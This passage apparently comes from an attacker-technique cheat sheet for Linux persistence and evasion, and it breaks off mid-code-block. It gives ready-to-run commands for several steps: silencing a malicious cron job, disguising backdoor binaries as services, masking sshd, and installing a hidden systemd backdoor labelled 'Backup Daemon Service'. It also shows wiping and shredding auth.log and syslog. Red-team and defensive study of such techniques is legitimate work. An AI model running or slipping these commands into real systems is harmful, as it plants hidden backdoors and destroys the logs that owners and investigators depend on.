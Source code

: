 #### Disabling Logging in Cron Jobs
- **Disabling Logging in Cron Jobs:**
	```bash
	@reboot /path/to/malicious_script > /dev/null 2>&1
	```

# Service and Execution Evasion

#### Masquerading as Legitimate Services
- **Rename backdoor binaries to legitimate service names:** Renames a backdoor binary to resemble a legitimate service.
	```bash
	cp /tmp/backdoor /usr/local/bin/sshd_fake
	```
- **Modify service scripts to run malicious binaries:** Edit `/etc/systemd/system/<service_name>.service` to include backdoor execution commands.

#### Systemd Masking & Obfuscation
- **Mask legitimate services with malicious ones:** Mask a legitimate service to prevent it from being started, then run a malicious binary in its place.
	```bash
	systemctl mask <service_name>
	```
	- **Example:**
		```bash
		systemctl mask sshd
		ln -s /bin/bash /etc/systemd/system/sshd.service
		systemctl start sshd
		```
- **Create hidden `systemd` service:** Obfuscate a backdoor service by placing it in a less suspicious location:
    ```bash
    [Unit]
    Description=Backup Daemon Service

    [Service]
    ExecStart=/usr/local/bin/.hidden_backdoor.sh

    [Install]
    WantedBy=multi-user.target
    ```
	- Place the file in `/lib/systemd/system/backup.service`, then enable it:
		```bash
		systemctl enable backup.service
		```

# Tampering with Security Tools and Logs

#### Deleting or Altering Log Files and History
- **Log clearing:** Clears authentication logs and syslog events.
    ```bash
    echo "" > /var/log/auth.log
    echo "" > /var/log/syslog
    ```
- **Shredding logs to make recovery difficult:** Overwrites and deletes log files, making recovery very difficult.
	```bash
	shred -u /var/log/auth.log
	```
- **Clear bash history or redirect it to `/dev/null`:** Prevent commands from being logged in the history file.
    ```bash
